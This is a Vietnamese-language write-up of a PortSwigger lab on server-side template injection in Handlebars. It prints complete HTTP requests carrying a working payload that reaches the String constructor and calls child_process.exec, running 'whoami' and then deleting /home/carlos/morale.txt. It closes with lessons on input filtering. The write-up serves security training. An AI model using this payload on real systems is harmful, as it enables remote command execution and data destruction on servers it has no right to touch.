





# Write-up: Server-side template injection in an unknown language with a documented exploit

### Tổng quan
Khai thác lỗ hổng **Server-Side Template Injection (SSTI)** trong ứng dụng web sử dụng template engine Handlebars, nơi tham số `message` trong URL không được lọc, cho phép thực thi mã tùy ý. Bằng cách sử dụng payload Handlebars dựa trên tài liệu từ bài viết của Shoeb Patel, kẻ tấn công thực thi lệnh `whoami` để xác nhận SSTI và xóa file `/home/carlos/morale.txt` để hoàn thành lab.

### Mục tiêu
- Khai thác lỗ hổng **SSTI** trong Handlebars qua tham số `message`, thực thi lệnh `whoami` để xác nhận, và sử dụng payload để xóa file `/home/carlos/morale.txt`, hoàn thành lab.

### Công cụ sử dụng
- Burp Suite Pro
- Firefox Browser

### Quy trình khai thác
1. **Khai thác Handlebars**  
- Khi chọn xem sản phẩm đầu tiên, server trả về thông báo `Unfortunately this product is out of stock` với URL chứa tham số:  
    - **Phân tích**: Tham số `message` có thể được kiểm soát, nghi ngờ tồn tại lỗ hổng SSTI:  
      

- Thử payload SSTI cơ bản:  
  ```
  GET /product?message=${7*7} HTTP/2
  Host: 0al9019t20uv1234p0qr189000st00qp.web-security-academy.net
  ```  
- Kết quả: Server báo lỗi, xác nhận Handlebars không hỗ trợ phép toán trực tiếp (`+`, `-`, `*`, `/`), nhưng tham số `message` được xử lý như một template Handlebars:  
    

- Tham khảo bài viết của Shoeb Patel ([The Secret Parameter, LFR and Potential RCE in NodeJS Apps](https://blog.shoebpatel.com/2021/01/23/The-Secret-Parameter-LFR-and-Potential-RCE-in-NodeJS-Apps/)) để xây dựng payload khai thác SSTI trong Handlebars. 
    
- Sử dụng payload để thực thi lệnh `whoami`:  
  ```
  GET /product?message={{#with%20"s"%20as%20|string|}}{{#with%20"e"}}{{#with%20split%20as%20|conslist|}}{{this.pop}}{{this.push%20(lookup%20string.sub%20"constructor")}}{{this.pop}}{{#with%20string.split%20as%20|codelist|}}{{this.pop}}{{this.push%20"return%20require('child_process').exec('whoami').stdout.pipe(process.stdout);"}}{{this.pop}}{{#each%20conslist}}{{#with%20(string.sub.apply%200%20codelist)}}{{this}}{{/with}}{{/each}}{{/with}}{{/with}}{{/with}}{{/with}} HTTP/2
  Host: 0al9019t20uv1234p0qr189000st00qp.web-security-academy.net
  ```  
- Kết quả: Server trả về `carlos`, xác nhận payload SSTI thành công, cho phép thực thi lệnh trong môi trường Node.js:  
      

2. **Thực hiện xóa tệp morale.txt**  
- Sử dụng payload tương tự để thực thi lệnh `rm /home/carlos/morale.txt`:  
    ```
    GET /product?message={{#with%20"s"%20as%20|string|}}{{#with%20"e"}}{{#with%20split%20as%20|conslist|}}{{this.pop}}{{this.push%20(lookup%20string.sub%20"constructor")}}{{this.pop}}{{#with%20string.split%20as%20|codelist|}}{{this.pop}}{{this.push%20"return%20require('child_process').exec('rm%20/home/carlos/morale.txt');"}}{{this.pop}}{{#each%20conslist}}{{#with%20(string.sub.apply%200%20codelist)}}{{this}}{{/with}}{{/each}}{{/with}}{{/with}}{{/with}}{{/with}} HTTP/2
    Host: 0al9019t20uv1234p0qr189000st00qp.web-security-academy.net
    ```  
    
- Kết quả: File `/home/carlos/morale.txt` bị xóa, lab xác nhận hoàn thành:  
    

- **Ý tưởng payload**:  
  - Sử dụng SSTI trong Handlebars để truy cập hàm `constructor` của `String` và thực thi lệnh hệ thống qua `child_process.exec`, xóa file `/home/carlos/morale.txt`.  

### Bài học rút ra
- Hiểu cách khai thác lỗ hổng **Server-Side Template Injection** trong Handlebars, sử dụng các kỹ thuật từ tài liệu để thực thi lệnh hệ thống như `whoami` và `rm`.  
- Nhận thức tầm quan trọng của việc lọc và mã hóa đầu vào người dùng trong template engine, hạn chế truy cập các hàm JavaScript nhạy cảm, và vô hiệu hóa thực thi lệnh trong môi trường Node.js.

### Kết luận
Lab này cung cấp kinh nghiệm thực tiễn trong việc khai thác **Server-Side Template Injection** trong Handlebars, nhấn mạnh tầm quan trọng của việc lọc đầu vào và bảo vệ template engine để ngăn chặn thực thi mã tùy ý. Xem portfolio đầy đủ tại https://github.com/Furu2805/Lab_PortSwigger.

*Viết bởi Toàn Lương, Tháng 9/2025.*